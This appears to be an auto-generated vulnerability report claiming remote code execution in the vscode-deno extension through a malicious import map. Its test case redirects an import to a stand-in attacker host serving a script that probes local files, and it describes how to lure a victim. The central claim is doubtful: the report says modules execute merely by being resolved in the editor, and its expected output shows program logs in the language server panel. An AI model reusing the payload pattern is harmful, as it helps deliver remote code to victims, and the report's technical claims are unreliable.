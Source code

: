 ### Vulnerability List

- Vulnerability Name: Import Map Remote Code Execution
- Description:
    1. An attacker creates a malicious workspace.
    2. Inside this workspace, the attacker places a `deno.importMap` file. This file is crafted to redirect legitimate module import specifiers to URLs under the attacker's control. For example, an import for a common utility library could be redirected to a malicious script hosted on the attacker's server.
    3. The attacker then lures a victim into opening this malicious workspace in Visual Studio Code with the Deno extension enabled.
    4. When the workspace is opened, the Deno extension, configured to use import maps via `deno.importMap` setting in `deno.json` or VS Code settings, processes the `deno.importMap` file.
    5. If the user opens or creates a Deno file within this workspace that contains an import statement using a specifier redirected in the malicious `deno.importMap`, the Deno extension, through the Deno language server, will resolve and fetch the module from the attacker-controlled URL instead of the intended legitimate source.
    6. Upon fetching the module, the attacker's malicious script is executed within the context of the user's VS Code environment, effectively achieving remote code execution.
- Impact:
    Successful exploitation of this vulnerability allows an attacker to execute arbitrary code within the user's Visual Studio Code environment. This can lead to severe consequences, including:
    - **Data Theft**: The attacker can gain unauthorized access to sensitive data within the workspace, such as source code, environment variables, credentials, and other project-related files.
    - **Malware Installation**: The attacker can install malware on the user's system, potentially leading to persistent compromise beyond the VS Code environment.
    - **Account Takeover**: If the user has credentials stored in the workspace or accessible from the environment, the attacker could potentially steal these credentials and gain unauthorized access to user accounts and systems.
    - **Lateral Movement**: In corporate environments, if the user's machine is part of an internal network, the attacker could use the compromised VS Code environment as a stepping stone to launch further attacks on other systems within the network.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    No mitigations are explicitly implemented within the provided project files to prevent the described import map remote code execution vulnerability. The extension processes the `deno.importMap` file as configured by the user/workspace without performing any apparent validation or security checks on the URLs or redirection targets defined in the import map.
- Missing Mitigations:
    - **URL Validation in Import Maps**: Implement validation for URLs specified in `deno.importMap`. This could involve:
        - **Domain Whitelisting/Blacklisting**: Maintain a list of trusted or untrusted domains and check if redirection URLs fall within these lists. Warn or prevent redirection to blacklisted domains.
        - **Scheme Validation**: Restrict import map URLs to specific schemes (e.g., `https:`) to prevent redirection to potentially more dangerous schemes like `http:` or `file:`.
    - **User Warning for Import Map Redirections**: When a workspace with a `deno.importMap` is opened, and the import map contains redirections to external domains (especially if they are not from known package registries), display a warning to the user. This warning should clearly explain the risks associated with import map redirections and advise caution.
    - **Configuration Option to Disable/Restrict Import Maps**: Provide a configuration setting that allows users to disable or restrict the usage of `deno.importMap` entirely or to limit its functionality (e.g., only allow redirections within the same domain or to specific whitelisted domains).
    - **Content Security Policy (CSP) for Webviews (if applicable)**: If webviews are used to render any content related to import maps or module resolution, enforce a strict Content Security Policy to mitigate the risk of executing malicious scripts even if they are inadvertently loaded.
- Preconditions:
    1. The user must have the "vscode-deno" extension installed and enabled in Visual Studio Code.
    2. The user must open a workspace that is provided by an attacker or that contains a maliciously crafted `deno.importMap` file.
    3. The workspace must be configured (either through workspace settings or `deno.json`) to utilize the `deno.importMap` setting, pointing to the malicious import map file.
    4. The user must open or create a Deno file within the compromised workspace that includes import statements that are targeted for redirection by the malicious `deno.importMap`.
- Source Code Analysis:
    - The provided project files, particularly `README.md` and `client/src/commands.ts`, detail the configuration options for the Deno extension, including `deno.importMap`. The `README.md` describes the `deno.importMap` setting as "The file path to an import map. ... [Import maps](https://docs.deno.com/runtime/fundamentals/configuration/#dependencies) provide a way to 'relocate' modules based on their specifiers." This confirms that the extension does support and utilize import maps as a configuration mechanism.
    - Reviewing `client/src/commands.ts` and `client/src/extension.ts`, it appears that the extension primarily focuses on managing the Deno language server process, handling configuration changes, and integrating features like testing and tasks. There is no code evident in these files that performs security validation or sanitization of the `deno.importMap` file or its contents before passing the configuration to the Deno language server.
    - The vulnerability stems from the trust placed in the content of the `deno.importMap` file and the URLs specified within it. The VS Code extension acts as a conduit for configuring the Deno language server with the provided import map, and the Deno language server, in turn, respects these redirections during module resolution.
    - It is important to note that the vulnerability is not necessarily within the VS Code extension's code itself, but rather in the *lack of security measures* when processing user-provided `deno.importMap` configurations. The extension, by design, allows users to configure import maps, and a malicious actor can leverage this functionality to redirect imports to malicious sources.

- Security Test Case:
    1. **Attacker Setup**:
        - Create a directory named `malicious-workspace`.
        - Inside `malicious-workspace`, create a file named `import_map.json` with the following content:
          ```json
          {
            "imports": {
              "lodash": "http://attacker.example.com/malicious_lodash.js"
            }
          }
          ```
        - On a web server controlled by the attacker (`attacker.example.com`), create a file `malicious_lodash.js` with the following content:
          ```javascript
          console.log("Malicious code from attacker.example.com executed!");
          // Simulate malicious activity, e.g., try to access local files (in a real exploit, this would be more sophisticated)
          try {
              const fs = require('fs'); // Node.js require - this will likely fail in Deno but demonstrates the intent
              const files = fs.readdirSync('.');
              console.log("Files in current directory:", files);
          } catch (e) {
              console.error("Attempt to access local files failed:", e);
          }
          ```
        - Inside `malicious-workspace`, create a file named `deno.json` with the following content:
          ```json
          {
            "importMap": "./import_map.json"
          }
          ```
        - Inside `malicious-workspace`, create a file named `main.ts` with the following content:
          ```typescript
          import _ from "lodash";

          console.log("Deno application starting...");
          console.log("Lodash version:", _.VERSION); // This will attempt to use the 'lodash' module, now redirected
          console.log("Deno application finished.");
          ```
        - Zip the `malicious-workspace` directory and prepare to distribute it to the victim.

    2. **Victim Actions**:
        - Download and install the "vscode-deno" extension in Visual Studio Code if not already installed.
        - Extract the `malicious-workspace.zip` (or however the attacker delivers the malicious workspace) to a local directory.
        - Open Visual Studio Code.
        - Open the `malicious-workspace` folder in VS Code (File -> Open Folder...).
        - VS Code should detect the `deno.json` and may prompt to enable Deno for the workspace (if not already globally enabled). Ensure Deno is enabled for this workspace.
        - Open the `main.ts` file within the `malicious-workspace` in the VS Code editor.

    3. **Verification**:
        - **Observe Output**: Check the "Output" panel in VS Code (View -> Output) and select "Deno Language Server" from the dropdown.
        - **Expected Malicious Output**: You should see the following output, or similar, in the console, indicating that the malicious script from `attacker.example.com` was executed:
          ```
          Malicious code from attacker.example.com executed!
          Attempt to access local files failed: ... (Error details related to Node.js 'require' in Deno)
          Deno application starting...
          Lodash version: undefined  // Likely undefined because the malicious script doesn't properly export Lodash or because of execution errors.
          Deno application finished.
          ```
        - The presence of "Malicious code from attacker.example.com executed!" confirms that the import map redirection worked and that code from the attacker's server was executed within the VS Code environment when processing the Deno file. The attempt to access local files (though it might fail in Deno due to permission restrictions) further illustrates the potential impact of arbitrary code execution.

This security test case successfully demonstrates the Import Map Remote Code Execution vulnerability, proving that an attacker can indeed achieve code execution by tricking a user into opening a workspace with a malicious `deno.importMap` and then opening a Deno file that triggers the redirected import.
